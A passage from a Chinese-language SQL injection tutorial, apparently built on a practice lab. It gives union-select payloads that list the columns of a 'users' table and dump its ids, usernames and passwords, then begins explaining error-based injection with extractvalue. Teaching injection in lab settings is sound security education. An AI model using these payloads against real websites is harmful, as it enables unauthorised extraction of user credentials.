 ![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732019338887-e739e57f-a73b-4a90-abb8-00db3bdd2c7e.png)

#### 6.爆出表中的字段
<font style="color:rgb(77, 77, 77);">我们这里选择users表进行进一步的获取表中的字段信息</font>

```php
#只需指定表名即可
?id=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users' --+
#或者指定当前数据库名
?id=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema='security' and table_name='users' --+
```

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732019620468-a87dc0ee-52c5-457a-98d0-4925529448e6.png)

<font style="color:rgb(77, 77, 77);">获取"users"表中存在3个字段，分别为 "id,username,password"</font>

#### <font style="color:rgb(77, 77, 77);">7. 爆相应字段的所有数据</font>
```php
#只需指定表名和字段名
?id=-1' union select 1,2,group_concat(`id`,':',`username`,':',`password`) from users --+
#字段值不加反引号也可以
?id=-1' union select 1,2,group_concat(id,':',username,':',password) from users --+
```

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732019803477-b35607fa-e380-4bf3-a7fb-85558a314a79.png)

<font style="color:rgb(77, 77, 77);">至此，联合查询整个过程结束。注入的时候找到注入点后只需套入语句即可</font><font style="color:rgb(77, 77, 77);">。</font>

### 报错注入
参考文章[链接](https://blog.csdn.net/qq_55202378/article/details/134802038?ops_request_misc=&request_id=&biz_id=102&utm_term=sql%E6%B3%A8%E5%85%A5%E6%8A%A5%E9%94%99%E6%B3%A8%E5%85%A5&utm_medium=distribute.pc_search_result.none-task-blog-2~all~sobaiduweb~default-9-134802038.142^v100^pc_search_result_base7&spm=1018.2226.3001.4187)

<font style="color:#601BDE;">报错注入</font><font style="color:rgb(77, 77, 77);">用在数据库的错误信息会回显在网页中的情况，如果联合查询不能使用，首选</font><font style="color:#601BDE;">报错注入</font><font style="color:rgb(77, 77, 77);">。</font>  
<font style="color:#601BDE;">报错注入</font><font style="color:rgb(77, 77, 77);">利用的是数据库的报错信息得到数据库的内容，这里需要构造语句让数据库报错。</font>

#### <font style="color:rgb(79, 79, 79);">报错注入的前提条件</font>
```sql
web应用程序未关闭数据库报错函数，对于一些SQL语句的错误直接回显在页面上；
后台未对一些具有报错功能的函数（如extractvalue、updatexml等）进行过滤。
```

#### <font style="color:rgb(79, 79, 79);">相关报错函数</font>
##### （1）extractvlue()（Mysql数据库版本号>=5.1.5）
**作用：**对xml文档进行查询，相当于在HTML文件中用标签查找元素。
